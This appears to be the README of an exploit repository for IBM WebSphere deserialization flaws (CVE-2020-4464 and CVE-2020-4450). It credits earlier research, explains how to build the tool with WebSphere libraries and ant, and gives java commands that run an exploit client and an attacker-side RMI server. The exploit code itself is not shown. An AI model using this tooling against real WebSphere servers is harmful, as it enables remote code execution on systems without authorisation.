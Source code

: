 WSIF Gadget for WebSphere (CVE-2020-4464 / CVE-2020-4450)
=========================================================

This is based on the excellent blog posts of ZDI:

* https://www.thezdi.com/blog/2020/7/20/abusing-java-remote-protocols-in-ibm-websphere
* https://www.zerodayinitiative.com/blog/2020/9/29/exploiting-other-remote-protocols-in-ibm-websphere

... and the work of some fine Chinese hackers (I couldn't determine the true source for the code, feel free to open an Issue if you think you deserve credit):

* https://vlambda.com/wz_7iyDatDUdvs.html
* https://cert.360.cn/report/detail?id=3d016bdef66b8e29936f8cb364f265c8


My additions (not much, really):
* Dependencies + build script
* Publicly accessible RMI service
* Little code cleanup

Foxglove's code is pulled in as a submodule, you can use the WebSphere request file to trigger CVE-2020-4464.

You should copy the `plugins` and `runtimes` directories from WebSphere to the `lib` directory, then run `ant` to compile!

To run (Java 11):

```
java -cp .:runtimes/com.ibm.ws.orb_9.0.jar:runtimes/com.ibm.ws.admin.client_9.0.jar:plugins/com.ibm.ws.managedobject.jar:plugins/com.ibm.ws.runtime.jar:plugins/com.ibm.ws.batch.runtime.jar:plugins/javax.j2ee.ejb.jar:runtimes/com.ibm.jaxws.thinclient_9.0.jar --add-modules jdk.naming.rmi --add-exports='jdk.naming.rmi/com.sun.jndi.rmi.registry=ALL-UNNAMED' Test
```

```
java -cp .:plugins/com.ibm.ws.runtime.jar:runtimes/com.ibm.ws.admin.client_9.0.jar RMIServer
```